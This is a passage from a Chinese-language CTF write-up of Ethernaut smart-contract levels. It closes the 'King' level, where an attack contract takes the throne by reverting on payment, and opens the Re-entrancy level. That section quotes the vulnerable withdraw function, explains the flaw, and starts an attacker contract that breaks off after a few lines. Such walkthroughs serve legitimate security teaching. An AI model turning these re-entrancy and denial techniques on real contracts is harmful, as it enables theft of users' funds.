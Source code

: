 在接受函数，我们主动回退，即可防止合约继续执行。

## 合约交互
首先我们先看看当前我们需传入多少。在目标合约详情页面，可以看到，创建合约时传入0.001Ether。

![合约详情](https://img-blog.csdnimg.cn/4d99ea85376f4dacb6863f18303c582a.png#pic_center)
所以我们创建攻击合约(`0x9Fd9980aCb9CAb42EDE479e99e01780E8c79b208`)后，传入2Finney，调用攻击合约`attack`方法。

![发起攻击](https://img-blog.csdnimg.cn/0c96f45258844e2bb2470aabe47140c4.png#pic_center)
此时我们看看国王，使用`await contract._king()`，可以看出，国王已经变成攻击合约。
![await contract._king()](https://img-blog.csdnimg.cn/c9f8dd9f30224a30b7184283ba6f1ee0.png#pic_center)
提交合约，关卡成功！

![关卡成功](https://img-blog.csdnimg.cn/f442c6dc1e6c4dc6a70a66df62c81984.png#pic_center)
查看链上数据可知，在执行过程中产生了回滚(`revert`)。
![revert](https://img-blog.csdnimg.cn/94cab9cc01d445979ace117005310b53.png#pic_center)
## 总结
攻击时可以从合约执行的多个角度入手。

<hr>


# 10 Re-entrancy
## 创建实例并分析
根据先前的步骤，创建合约实例，其合约地址为`0xfe3E5BdD6E5ae5efb4eea5735b3E3738991fFc2e`。对其合约展开分析，其合约提取函数如下：

```
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```
这个合约的问题在哪里呢？那就是他弄错了记账、转账的顺序（先转账，再记账）。一般来说，我们去银行取钱，银行都会先在自己的账本上记一笔，然后才会把钱取出来给我们。虽然说，我们也不可能同时出现在两个地方取钱，但在区块链中，有没有可能呢？

答案是有的，如果我们在接受合约转账的同时又发起新的取钱操作，那么很明显，如果是连续的调用过程，在未修改账本的情况下，合约仍会给用户转账？

那么，怎样做才能保证实现连续的调用呢？那就是使用合约去与被攻击合约进行交互。

## 攻击合约编写
我们同样在remix里编写攻击合约。如下：

```
pragma solidity ^0.6.0;


interface Reentrance{
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
    function balanceOf(address _who) external view returns (uint balanceOf);
}

contract Attacker {
    Reentrance ReentranceImpl;
    uint256 requiredValue;

```